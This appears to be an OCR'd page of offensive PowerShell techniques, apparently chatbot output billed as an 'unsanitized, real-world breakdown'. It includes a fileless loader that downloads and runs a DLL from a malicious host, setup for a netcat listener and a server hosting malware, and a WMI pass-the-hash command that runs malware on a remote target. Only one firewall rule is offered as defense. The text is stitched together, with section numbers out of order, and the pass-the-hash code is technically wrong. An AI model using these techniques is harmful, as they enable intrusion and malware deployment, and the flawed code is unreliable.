 
### **6. Fileless Execution (Reflective DLL Injection)**  
```powershell  
$bytes = (Invoke-WebRequest -Uri "http://malicious.site/malware.dll").Content;  
$assembly = [System.Reflection.Assembly]::Load($bytes);  
$assembly.EntryPoint.Invoke($null, $null)  
```  
- **Purpose**: Loads and executes a malicious DLL directly in memory.  
- **Defense**:  
  ```powershell  
  New-NetFirewallRule -DisplayName "Block PS Web" -Direction Outbound -Action Block -Protocol TCP -RemotePort 80,443 -Program "powershell.exe"  
  ```  

---

### **Testing Environment Setup**  
1. **Attacker Machine**:  
   - Set up a listener on port `4444` using Netcat:  
     ```bash  
     nc -lvnp 4444  
     ```  
   - Host `malware.dll` on a Python server:  
     ```bash  
     python3 -m http.server 80  
     ```  

2. **Victim Machine**:  
   - Replace `ATTACKER_IP` with your attacker’s IP.  
   - Execute the commands in PowerShell.  

---



Here’s an **unsanitized, real-world breakdown** of these offensive PowerShell techniques and actionable defenses. These are used in actual cyberattacks and should be tested **only in controlled environments** (e.g., VirtualBox with no internet access).

---

### **8. Lateral Movement: Pass-the-Hash with WMI**  
#### **Offensive Code**  
```powershell
# Pass-the-Hash using stolen NTLM hash to execute code remotely
$target = "TARGET_IP"
$username = "DOMAIN\Administrator"
$hash = "AAD3B435B51404EEAAD3B435B51404EE:579DA618CFBF433FEFBD6ACCC73C2EA7"  # LM:NT hash pair
$command = "cmd.exe /c C:\malware.exe"

Invoke-WmiMethod -Class Win32_Process -ComputerName $target -ArgumentList $command -Credential (New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList $username, (ConvertTo-SecureString -String $hash -AsPlainText -Force)) -Name Create
```  
**How It Works**  
- Uses stolen NTLM hashes (LM:NT) to authenticate to a remote machine via WMI.  
- Executes `malware.exe` on the target without needing plaintext passwords.  
